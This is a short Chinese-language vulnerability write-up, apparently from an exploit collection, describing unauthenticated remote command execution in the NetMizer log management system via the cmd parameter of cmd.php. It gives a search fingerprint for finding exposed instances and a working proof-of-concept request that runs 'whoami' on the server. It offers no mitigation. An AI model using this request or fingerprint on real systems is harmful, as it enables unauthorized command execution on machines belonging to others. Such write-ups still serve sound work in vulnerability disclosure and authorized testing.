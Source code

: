 # NetMizer 日志管理系统 cmd.php 远程命令执行漏洞

## 漏洞描述

NetMizer 日志管理系统 cmd.php中存在远程命令执行漏洞，攻击者通过传入 cmd参数即可命令执行

## 漏洞影响

<a-checkbox checked>NetMizer 日志管理系统</a-checkbox></br>

## 网络测绘

<a-checkbox checked>title="NetMizer 日志管理系统"</a-checkbox></br>

## 漏洞复现

登录页面

![img](../../../.vuepress/public/img/1628834857867-6694d560-2345-49e8-9460-2296c316a7a3-20220314133236391.png)

验证POC

```python
/data/manage/cmd.php?cmd=whoami
```

![img](../../../.vuepress/public/img/1637918595617-0674c271-9040-4d74-acc4-1e0c1d71ab7c.png)



若有收获，就点个赞吧